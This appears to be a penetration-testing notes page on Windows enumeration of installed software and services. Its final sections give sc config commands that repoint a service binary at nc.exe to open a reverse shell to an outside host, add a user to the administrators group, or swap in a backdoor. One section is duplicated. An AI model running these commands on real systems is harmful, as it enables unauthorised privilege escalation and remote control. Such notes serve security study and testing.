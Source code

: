 ### List the installed software
`dir /a "C:\Program Files"`
`dir /a "C:\Program Files (x86)"`
`reg query HKEY_LOCAL_MACHINE\SOFTWARE`

`Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)'`
`Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE`
## Services
Get a list of services:
`net start`
`wmic service list brief`
`sc query`
`Get-Process`
### Get detailed information for a specific service
`sc qc <service_name>` 
To use this command in PowerShell you need to specify `sc.exe` instead of `sc`.  In PowerShell `sc` is an alias for `Set-Content` and will not give the expected output.

`Get-Service`

### Enable a disabled service
If you are having this error (for example with SSDPSRV):
> System error 1058 has occurred. 
> The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
You can enable it using:
```
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```
Note: In Windows XP SP1, the service upnphost depends on SSDPSRV to work

### Enable a disabled service
If you are having this error (for example with SSDPSRV):
> System error 1058 has occurred. 
> The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
You can enable it using:
```
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```
Note: In Windows XP SP1, the service upnphost depends on SSDPSRV to work

### Modify service binary path (*move to privilege escalation/persistence pages*)
If one of the groups you have access to has SERVICE_ALL_ACCESS in a service, then it can modify the binary that is being executed by the service. To modify it and execute nc you can do:
```
sc config <service_Name> binpath= "C:\nc.exe -nv <IP> <port> -e C:\WINDOWS\System32\cmd.exe"
//use SYSTEM privileged service to add your user to administrators group
sc config <service_Name> binpath= "net localgroup administrators <username> /add"
//replace executable with your own binary (best to only do this for unused services!)
sc config <service_name> binpath= "C:\path\to\backdoor.exe"
```
### Service Permissions (*move to privilege escalation/persistence pages*)
Other Permissions can be used to escalate privileges:
SERVICE_CHANGE_CONFIG Can reconfigure the service binary
WRITE_DAC: Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG
WRITE_OWNER: Can become owner, reconfigure permissions
GENERIC_WRITE: Inherits SERVICE_CHANGE_CONFIG
